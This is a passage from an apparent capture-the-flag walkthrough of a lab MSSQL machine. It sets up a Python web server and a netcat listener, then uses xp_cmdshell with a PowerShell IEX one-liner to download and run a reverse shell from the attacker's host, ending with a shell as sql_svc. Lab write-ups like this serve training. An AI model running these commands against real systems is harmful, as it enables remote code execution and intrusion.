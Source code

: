 ``` shell
  --------------------------------------------------------
  python3 -m http.server 80
  -------------------------------------------------------- 
```
Below the python mini webserver started:<br>
<div style="width:100%; background-color:#252b34"><img src="StartingPoint_1.png"></div>


After standing up a netcat listener on port 443, we can use ufw to allow
the call backs on port 80 and 443 to our machine.
``` shell
  ---------------------------------------------------------
  nc -lvnp 443
  
  ufw allow from 10.10.10.27 proto tcp to any port 80,443
  ---------------------------------------------------------
```
Below the netcat listener started:<br>
<div style="width:100%; background-color:#252b34"><img src="StartingPoint_2.png"></div>

We can now issue the command to download and execute the reverse shell
through xp\_cmdshell. (10.10.14.16 attacking machine)
``` shell
  -------------------------------------------------------------------------------------------------------------------
 xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\\"http://10.10.14.16/shell.ps1\\");"
  -------------------------------------------------------------------------------------------------------------------
```


We can see from our mini webserver that a file has been downloaded

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_4.png"></div>

A shell is received as **sql\_svc**, and we can get the user.txt on
their desktop.

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_5.png"></div>
